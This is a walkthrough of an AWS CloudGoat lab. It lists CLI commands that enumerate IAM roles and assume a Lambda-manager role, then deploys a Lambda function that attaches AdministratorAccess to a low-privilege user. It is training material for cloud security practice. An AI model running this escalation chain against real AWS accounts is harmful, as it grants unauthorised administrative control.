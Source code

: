 `aws configure --profile Chris`

`aws iam list-attached-user-policies --user-name chris-<cloudgoat_id> --profile Chris`

`aws iam get-policy-version --policy-arn <cg-chris-policy arn> --version-id v1 --profile Chris`

`aws iam list-roles --profile Chris`

`aws iam list-attached-role-policies --role-name cg-debug-role-<cloudgoat_id> --profile Chris`

`aws iam list-attached-role-policies --role-name cg-lambdaManager-role-<cloudgoat_id> --profile Chris`

`aws iam get-policy-version --policy-arn <cg-lambdaManager-policy arn> --version-id v1 --profile Chris`

`aws sts assume-role --role-arn <cg-lambdaManager-role arn> --role-session-name lambdaManager --profile Chris`


Then add the lambdaManager credentials to your AWS CLI credentials file at `~/.aws/credentials`) as shown below:

```
[lambdaManager]
aws_access_key_id = {{AccessKeyId}}
aws_secret_access_key = {{SecretAccessKey}}
aws_session_token = {{SessionToken}}
```

python code:

**Note**: The name of the file needs to be `lambda_function.py`.

````
import boto3
def lambda_handler(event, context):
	client = boto3.client('iam')
	response = client.attach_user_policy(UserName = 'chris-<cloudgoat_id>', PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess')
	return response
````

`aws lambda create-function --function-name admin_function --runtime python3.9 --role <cg-debug-role arn> --handler lambda_function.lambda_handler --zip-file fileb://lambda_function.py.zip --profile lambdaManager` --region us-east-1

`aws lambda invoke --function-name admin_function out.txt --profile lambdaManager` --region us-east-1

`aws iam list-attached-user-policies --user-name chris-<cloudgoat_id> --profile Chris`
